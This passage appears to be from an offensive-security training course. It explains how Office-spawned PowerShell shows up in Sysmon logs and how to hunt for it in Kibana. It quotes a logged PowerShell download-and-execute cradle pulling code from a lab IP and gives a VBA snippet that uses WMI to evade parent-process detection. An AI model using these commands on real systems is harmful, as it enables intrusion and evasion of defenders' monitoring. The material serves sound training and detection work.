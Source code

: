 Processes have a one-to-many relationship, referred to as parent and children. When one process starts another, that new process is a child of the process that started it. A process may have many children, but only one parent. These relationships can be a good indicator of malicious activity on a system - this is a point that we won't dwell on too much throughout this course as we're still learning basic tradecraft, but we'll introduce the concept here.

In the example above, Microsoft Word started PowerShell to execute our payload. This created a relationship by which **powershell.exe** is a child of **winword.exe**. This isn't normal behaviour and highly suspicious.

![alt text](file:///android_asset/20220831114419.png)

[Sysmon](https://docs.microsoft.com/en-gb/sysinternals/downloads/sysmon) and other defensive products can log process creation events, which includes the details of the parent and child. Defenders can use this information to trigger alerts when "sensitive" applications create children.

```shell
ProcessId: 2308
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"
User: DEV\bfarmer
ParentProcessId: 3684
ParentImage: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

### Finding the Needle

You can verify this behaviour using the Elastic installation in the lab.  In the main Snap Labs Dashboard, click the **Apps** link in the top menu and then click the monitor icon next to the Kibana App entry.  The credentials are **elastic**:**elastic**.

![alt text](file:///android_asset/20220831114440.png)

We can start by finding all the Process Creation events logged by Sysmon.  From the Kibana home page, expand the menu in the top-left and then select **Discover** underneath the **Analytics** header.

First, ensure that you have the **winlogbeat-*** index selected.

![alt text](file:///android_asset/20220831114449.png)

Then in the search box, enter:
```
event.module : sysmon and event.type : process_start
```

The number of events you get back will depend on how long your lab has been running.  I have about 3,000 results from the 8 hosts that are being logged.  You can start to appreciate the difficultly in finding specific malicious activity across an entire enterprise environment with hundreds or even thousands of machines.  For that reason, we need to narrow down the search with additional parameters.  Specifically, in this case, we're interested in instances where MS Office applications are the parent.  So we can add the following to the search:
```
and process.parent.executable : *EXCEL.EXE | *WINWORD.EXE | *POWERPNT.EXE
```

Essentially what we're doing here is only returning results where the parent process path ends with EXCEL.EXE OR WINWORD.EXE OR POWERPNT.EXE.  When writing these queries, there are several aspects a defender needs to think about.  Some that spring to mind are:

-   Does the query cover all eventualities of interest?
-   Are there edge cases that this will miss?
-   Is the query performant?

A simple way to break this particular relationship is to use the WMI Win32_Process class to create the process:

```vb
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

In this instance, PowerShell will be a child of **WmiPrvSE.exe** rather than MS Word.

>Execute different phishing payloads and find the corresponding logs in Kibana.

